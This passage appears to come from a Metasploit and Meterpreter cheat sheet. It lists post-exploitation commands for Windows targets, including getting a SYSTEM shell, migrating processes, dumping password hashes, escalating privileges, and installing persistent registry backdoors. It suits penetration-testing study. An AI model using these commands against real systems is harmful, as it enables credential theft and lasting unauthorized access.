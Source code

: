 ### Process and Service Management
```bash
# Kill process
kill [PID]

# Execute command
execute -f cmd.exe -i -H

# Get system shell
shell

# Migrate to process
migrate [PID]

# Get system privileges
getsystem
```

## Advanced Metasploit Features

### 1. Post-Exploitation Modules
```bash
# Search post modules
search type:post

# Gather system info
use post/windows/gather/enum_system
set SESSION 1
run

# Dump password hashes
use post/windows/gather/hashdump
set SESSION 1
run

# Privilege escalation
use post/windows/escalate/getsystem
set SESSION 1
run
```

### 2. Persistence
```bash
# Create persistent backdoor
use exploit/windows/local/persistence
set SESSION 1
run

# Registry persistence
use post/windows/manage/persistence_exe
set SESSION 1
run
```
